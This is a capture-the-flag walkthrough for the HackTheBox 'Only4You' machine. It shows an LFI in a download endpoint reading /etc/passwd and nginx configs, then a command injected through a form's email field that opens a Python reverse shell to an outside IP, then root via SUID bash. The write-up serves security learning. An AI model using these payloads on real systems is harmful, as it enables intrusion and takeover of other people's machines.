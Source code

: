 # HTB Only4You Solution

* Setup only4you in local /etc/hosts

* Open in browser, CTRL+U to open html source

* CTRL+F `.only4you` to find subdomain `beta.only4you.htb`

* Setup `beta.only4you.htb` in local /etc/hosts

* Get source code from beta.only4you.htb

* app.py:download doesn't use `send_from_directory` and checks requested
file allowing to change the requested file to our full path (LFI)

> js oneliner to get accessable arbitrary file (execute from beta.only4you.htb/list)
>
> ```js
> btn = document.getElementsByClassName("btn btn-primary my-2")[0]; btn.setAttribute("value", "/etc/hosts"); btn.click()
> ```
> 
> Using burpsuite I managed to get an equivalent curl 
> ```shell
> curl -d 'image=/etc/hosts' 'http://beta.only4you.htb/download'
> ```

* Get useful system files: 
  * `etc/nginx/nginx.conf` - Generally may be useful
  * `/etc/nginx/sites-available/default` - Get absolute paths to webservers 
  * `etc/passwd` - Get general users information

* Get non-beta app.py `/var/www/only4you.htb/app.py`
* Find and get form.py from app.py's sources `/var/www/only4you.htb/app.py`
* Create a proper payload (I extracted the tested part to `issecure_payload.py`)
* Extract payload to curl using burp


> curl -d 'name=asdasd&email=example%40gmail.com+%7C+python3+-c+%27import+os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%2210.10.14.159%22%2C4273%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for+f+in%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27&subject=asgsag&message=asgsag' 'http://only4you.htb/'


Use `linpeas.sh`. See that /usr/bin/bash has suid. `/usr/bin/bash -p`, rooted.